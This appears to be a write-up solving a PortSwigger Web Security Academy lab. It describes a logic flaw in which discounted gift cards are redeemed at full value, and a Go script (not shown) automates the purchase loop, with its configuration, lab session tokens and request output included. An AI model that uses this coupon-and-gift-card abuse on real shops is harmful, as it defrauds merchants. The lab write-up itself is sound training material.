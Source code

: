 # Lab: Infinite money logic flaw
DIFFICULTY: PRACTITIONER
LAB: Solved
TAG: infinite-money-logic-flaw

## Lab Description
This lab has a logic flaw in its purchasing workflow. To solve the lab, exploit this flaw to buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: wiener:peter

URL: https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-infinite-money

## Solution

We take advantage of a logic flaw, where we can buy a gift card for $10 with a 30% discount (paying only $7), and after we can redeem the gift card again for $10, so we get a profit of $3 per gift cards.

The process is automated with `main.go` to run just do:
```
go run main.go
```

Before running don't forget to updated the configuration variables on the beginning of the file, required conf:
```go
const (
	baseURL = "https://acb81f601fca3cc3809b0e5000d900a0.web-security-academy.net/"
	csrf          = "LCEepui73UVECHlN3R84TDYwCdfXc5cX"         // get this info from a POST request to /cart/coupon using Burp
	cookie        = "session=ZrqCi4oh69dHpHLsSdUv072OJNOfw8Sf" // get this info from a POST request to /cart/coupon using Burp
	targetBalance = 1337
)
```

The script increases the amount of gift cards to buy **until the cap of 99** gift cards per purchase is reached, below you can find the evolution of the purchases and balance:
```
Store Credit Evolution:  [$100 $130 $169 $217 $280 $364 $472 $613 $796 $1033 $1330 $1627]
GiftCard Qty Evolution:  [10   13   16   21   28   36   47   61   79   99    99    ended]
```

## Expected Behaviour

```
$ go run main.go

==================================
==> Current Store Credit: $ 100
=> Buying 10 gift cards to redeem.
==================================

=== Request POST cart
status:  200 OK

=== Request POST cart/coupon
status:  200 OK

=== Request POST cart/checkout
status:  200 OK

=== Request POST gift-card | coupon: WEjfEKdqJu
status:  200 OK

...

Finished executing, current balance: $ 1627
```